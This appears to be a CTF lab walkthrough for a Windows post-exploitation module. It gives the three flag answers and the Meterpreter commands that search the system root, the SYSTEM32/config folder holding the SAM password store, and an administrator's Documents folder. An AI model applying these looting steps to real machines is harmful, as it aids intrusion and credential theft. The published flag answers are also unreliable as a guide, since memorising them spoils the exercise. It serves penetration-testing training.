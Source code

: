 # Find Flags

With the example being run on this module we can find extra flags hidden in the system of the target machine.

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this module.

&nbsp;

### Flag 1

*This flag can be found at the system root.*

*answer:  flag{access_the_machine}*

```shell
meterpreter > search -r false -d c:/ -f *.txt
Found 1 result...
=================

Path          Size (bytes)  Modified (UTC)
----          ------------  --------------
c:\flag1.txt  24            2019-03-17 19:27:21 +0000

meterpreter > cat c:/flag1.txt
flag{access_the_machine}
meterpreter > 
```

&nbsp;

### Flag 2

*This flag can be found at the location where passwords are stored within Windows.*

\*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

answer: flag{sam_database_elevated_access}

```shell
meterpreter > cd C:/WINDOWS/SYSTEM32/config
meterpreter > search -r false -d c:/WINDOWS/SYSTEM32/config -f *flag*.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\WINDOWS\SYSTEM32\config\flag2.txt  34            2019-03-17 19:32:48 +0000

meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
meterpreter >
```

&nbsp;

### Flag 3

This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

answer: flag{admin_documents_can_be_valuable}

```shell
meterpreter > cd c:/Users
meterpreter > ls
Listing: c:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2009-07-14 06:08:56 +0100  All Users
040555/r-xr-xr-x  8192  dir   2009-07-14 08:07:31 +0100  Default
040777/rwxrwxrwx  0     dir   2009-07-14 06:08:56 +0100  Default User
040777/rwxrwxrwx  8192  dir   2018-12-13 03:13:45 +0000  Jon
040555/r-xr-xr-x  4096  dir   2011-04-12 09:28:15 +0100  Public
100666/rw-rw-rw-  174   fil   2009-07-14 05:54:24 +0100  desktop.ini

meterpreter > cd Jon
meterpreter > cd Documents
meterpreter > ls
Listing: c:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Music
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Videos
100666/rw-rw-rw-  402   fil   2018-12-13 03:13:48 +0000  desktop.ini
100666/rw-rw-rw-  37    fil   2019-03-17 19:26:36 +0000  flag3.txt

meterpreter > cat flag3.txt
flag{admin_documents_can_be_valuable}
meterpreter >
```